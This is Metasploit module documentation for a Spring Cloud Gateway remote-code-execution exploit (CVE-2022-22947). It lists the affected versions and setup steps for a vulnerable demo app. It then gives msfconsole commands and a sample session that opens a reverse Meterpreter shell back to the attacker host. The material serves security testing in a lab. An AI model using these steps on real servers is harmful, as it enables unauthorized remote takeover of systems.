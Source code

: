 ## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an unauthenticated RCE
vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947)
the versions affected are:

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

A sample demo [project](https://github.com/wdahlenburg/spring-gateway-demo) is available,
which can be used to run a vulnerable server by following the installation instructions below.
    
### Installation Instructions

```bash
    # To use the pre-compile vulnerable application
    wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
    sudo apt install default-jdk
    java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000


    # If you want to compile for a version of spring cloud gateway on your own
    git clone https://github.com/wdahlenburg/spring-gateway-demo.git

    # In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. 
    # To see which spring cloud version includes which version of spring cloud gateway, 
    # look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

    apt install maven
    mvn package -DskipTests
    java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set LHOST <metasploit_machine_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a Meterpreter shell.

## Options

No particular option to be set

## Scenarios

### Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64

```
msf6 > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set LHOST 192.168.1.7
LHOST => 192.168.1.7
msf6 exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.1.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server is vulnerable
[*] Triggering code execution using routes
[+] Route deleted
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Triggering code execution using routes
[*] Sending stage (40164 bytes) to 192.168.1.7
[*] Meterpreter session 7 opened (192.168.1.7:4444 -> 192.168.1.7:53264) at 2022-10-11 17:44:53 -0400
[+] Route deleted

meterpreter >
```

